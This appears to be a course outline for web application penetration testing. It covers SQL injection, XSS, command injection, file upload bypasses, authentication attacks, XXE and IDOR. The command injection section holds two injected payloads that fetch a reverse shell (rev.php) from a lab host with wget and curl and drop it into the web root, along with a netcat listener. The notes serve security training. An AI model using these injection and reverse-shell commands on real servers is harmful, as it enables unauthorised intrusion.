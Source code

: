 # Introduction
Description of the module

# Lab Setup
As the title says

# SQL Injection - Introduction
Some basic SQL, how to setup a database to test and quick reference to a basic tutorial

# SQL Injection - UNION
Showcase of reflected SQLi and using the UNION keyword to execute attacks
Showcase of information_schema to get database information
How to enumerate the number of columns and the values that they can take

# SQL Injection - Blind Part 1
Using Burp Suite and sqlmap
Using Burp's Repeater, Encoding characters in repeater
The payloads are not showing any results? It might be a blind injection
Use sqlmap: create a req.txt with the request
Is the chosen field failing? Move on to another target
See what the application is processing and try to inject it

# SQL Injection - Blind Part 2
We found the injection point, it's blind, let's dig in
We will construct a query that will get the DB version character by character
We will use `substring()`
We use both Burp and sqlmap

# XSS - Introduction
Overview of types
Live demo
Tip: avoid using `alert()` and instead use `print()` or `prompt()`
A sample payload using the keydown event listener

# XSS - DOM Lab
Find injection point
Determine type of XSS
Sample payload to cause a redirection

# XSS - Stored Lab
Firefox Multi Account Containers extension mention
Cookie editor extension mention
Test for html injection first, before attempting xss
webhook.site mention to use for payloads

# Command Injection - Introduction
Overview
Self contained demo of using the web console and php

# Command Injection - Basics
appsecexplained.gitbook.io reference
basic payloads and examples
popping a reverser shell: using payload all the things
using netcat to receive the reverse shell
`nc -nlvp`

# Command Injection - Blind/Out of band
Using webhook.site or burp collaborator to cause an out of band interaction
Take into account what characters are getting filtered
Instead of using a onliner reverse shell, we will upload a shell and then trigger it
Mention to the reverse shells in kali in `/usr/share/webshells/`
`https://tcm-sec.com \n wget 10.10.10.1:8080/rev.php`
`https://tcm-sec.com && curl 10.10.10.1:8080/rev.php > /var/www/html/rev.php`
use `commix` if we can't use Burp Pro's scanner

# Insecure File Upload - Introduction
Overview
Overriding files and or getting DoS

# Insecure File Upload - Basic Bypass
Determine is the check is client-side or server-side
php shell example

# Insecure File Upload - Magic Bytes
Using the magic bytes of a png to bypass server-side checks
Mention to also try other not some common file extensions
google `valid php file extensions` and try to bypass a blacklist
Portswigger mention

# Attacking Authentication - Introduction
Overview

# Attacking Authentication
Brute force attacks
Think methodically
Using Burp's intruder
Using ffuf `-request` flag

# Attacking Authentication - MFA
appsecexplained.gitbook.io reference
Thinkering how to break or manipulate the intended order of steps
Are tokens linked to a specific account?

# XXE
Overview of what it is
Payloadsallthethings reference for payloads
Sent XML to some APIs expecting JSON

# IDOR
Insecure Direct Object Reference
When found in API driven applications we call it BOLA
